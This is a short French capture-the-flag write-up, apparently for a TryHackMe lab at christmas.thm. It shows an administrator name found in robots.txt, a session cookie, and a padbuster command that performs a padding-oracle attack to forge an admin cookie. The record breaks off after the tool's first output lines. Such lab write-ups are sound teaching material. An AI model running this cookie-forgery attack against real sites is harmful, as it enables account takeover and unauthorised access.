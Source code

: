 Dans robots.txt on trouve un nom qui est : administratorhc0nwithyhackme   

Dans robots il y une image iv.png 

![page](./Task1-02.png)  
![page](./Task1-03.png)  

On se crée un compte.  
Un fois le compte créée, on remarque un cookie a été fait. 

```bash
tim@kali:~/Bureau/tryhackme/write-up$ padbuster http://christmas.thm/login.php NHhnct8l8JsZUy5Y68jKydmj8BTo7Njj 8 --cookies hcon=NHhnct8l8JsZUy5Y68jKydmj8BTo7Njj --encoding 0 -plaintext user=administratorhc0nwithyhackme

+-------------------------------------------+
| PadBuster - v0.3.3                        |
| Brian Holyfield - Gotham Digital Science  |
| labs@gdssecurity.com                      |
+-------------------------------------------+

INFO: The original request returned the following
[+] Status: 200
[+] Location: N/A
[+] Content Length: 1488
```